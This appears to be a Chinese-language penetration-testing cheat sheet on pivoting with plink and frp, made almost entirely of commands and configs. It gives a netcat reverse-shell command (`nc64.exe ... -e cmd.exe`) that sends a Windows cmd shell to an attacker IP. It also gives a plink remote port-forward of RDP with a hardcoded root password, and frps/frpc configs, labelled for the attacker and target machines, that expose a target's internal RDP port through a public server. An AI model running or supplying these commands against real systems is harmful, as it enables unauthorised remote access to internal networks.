 ### plink

- 示例

    - 208.88.127.99(kali)

        `nc -lvp 443`

    - 172.16.40.20(win)

        ```cmd
        nc64.exe -nv 208.88.127.99 443 -e cmd.exe
        plink.exe -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
        ```

    - 208.88.127.99(kali)

        `rdesktop 127.0.0.1:3390`

### frpc

项目地址:   https://github.com/fatedier/frp

- 示例

    将 frps 及 frps.ini 放到有公网 IP 的机器上,将 frpc 及 frpc.ini 放到处于内网环境的机器上

    - 攻击机执行

        `./frps -c ./frps.ini`

        - frps.ini 配置文件

            ```ini
            [common]
            bind_port = 7000

            [rdp]
            listen_port = 6000
            auth_token = 123
            ```

    - 目标机执行

        `./frpc.exe -c frpc.ini`

        - frpc.ini配置文件为

            ```ini
            [common]
            server_addr = 208.88.127.99(公网ip)
            server_port = 7000(公网端口)

            [rdp]
            type = tcp
            # local_ip = 127.0.0.1
            local_port = 3389
            auth_token = 123
            # remote_port = 5200
            ```
